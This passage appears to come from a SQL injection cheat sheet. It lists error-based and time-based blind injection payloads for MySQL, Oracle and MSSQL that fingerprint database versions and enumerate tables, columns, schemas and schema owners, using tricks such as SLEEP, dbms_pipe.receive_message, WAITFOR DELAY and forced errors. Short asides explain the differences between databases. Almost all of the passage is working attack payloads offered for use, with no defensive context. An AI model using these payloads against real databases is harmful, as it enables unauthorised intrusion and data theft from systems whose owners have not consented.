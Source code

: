```sql
SELECT IF ((SELECT SUBSTRING((SELECT @@version),1,1))='8', (SELECT table_name FROM information_schema.tables), 'a') AS Result;
```

### MySQL (time based)

```sql
SELECT IF ((SELECT SUBSTRING((SELECT @@version),1,1))='8', (SELECT SLEEP(2)), (SELECT 'A')) AS Result;
```

## Enumerate rows returned of distinct table owners

### Oracle (error based)

```sql
((SELECT CASE WHEN (SELECT MAX(RN) FROM (SELECT ROWNUM RN, COLUMN_NAME, TABLE_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME = 'HS_BULKLOAD_VIEW_OBJ'))=2 THEN TO_CHAR(1/0) ELSE NULL END FROM DUAL))
```

### Oracle (time based)

```sql
((SELECT CASE WHEN (SELECT MAX(RN) FROM (SELECT ROWNUM RN, COLUMN_NAME, TABLE_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME = 'HS_BULKLOAD_VIEW_OBJ'))=2 THEN dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM DUAL))
```

<aside>
💡 MSSQL works a little differently, you have to enumerate schema names and the owners of those respective schemas.

</aside>

### MSSQL (error based)

```sql
IF ((SELECT MAX(RN) FROM (SELECT DISTINCT owner_name AS owner, RN FROM (SELECT RN, owner_name FROM (SELECT ROW_NUMBER() OVER (ORDER BY owner_name) AS RN, schema_name, owner_name FROM (SELECT name AS schema_name, USER_NAME(principal_id) AS owner_name FROM sys.schemas) AS thing) AS subquery) AS mainquery) AS thing))=12 BEGIN THROW 500001, 'THING', 1; END
```

### MSSQL (time based)

```sql
IF ((SELECT MAX(RN) FROM (SELECT DISTINCT owner_name AS owner, RN FROM (SELECT RN, owner_name FROM (SELECT ROW_NUMBER() OVER (ORDER BY owner_name) AS RN, schema_name, owner_name FROM (SELECT name AS schema_name, USER_NAME(principal_id) AS owner_name FROM sys.schemas) AS thing) AS subquery) AS mainquery) AS thing))=12 WAITFOR DELAY '0:0:02'
```

<aside>
💡 PostgreSQL works similar to MSSQL where you have to enumerate the schema name, schema owner, and then use the results to determine what you’re able to access.
